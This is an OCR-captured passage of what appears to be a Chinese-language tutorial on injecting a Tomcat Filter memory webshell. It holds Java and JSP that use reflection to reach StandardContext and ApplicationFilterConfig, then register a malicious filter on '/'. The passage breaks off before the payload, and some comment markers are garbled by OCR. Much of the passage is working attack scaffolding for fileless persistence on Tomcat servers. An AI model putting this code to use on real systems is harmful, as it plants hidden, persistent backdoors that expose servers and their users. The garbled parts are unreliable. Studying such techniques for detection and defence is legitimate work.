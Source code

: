 ```java

        /
          _创建一个FilterDef 然后设置我们filterDef的名字，和类名，以及类
         /
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());

        // 调用 addFilterDef 方法将 filterDef 添加到 filterDefs中
        standardContext.addFilterDef(filterDef);

        /_
          _创建一个filtermap
          设置filter的名字和对应的urlpattern
         /
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/");
        filterMap.setFilterName(name);
        // 这里用到的 javax.servlet.DispatcherType类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        /_
          _将filtermap 添加到 filterMaps 中的第一个位置
         /
        standardContext.addFilterMapBefore(filterMap);

        /_
          _利用反射创建 FilterConfig，并且将 filterDef 和 standardContext Context）作为参数进行传入
         /
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);_


```


完整的jsp代码如下：


```text
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "darkless";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
```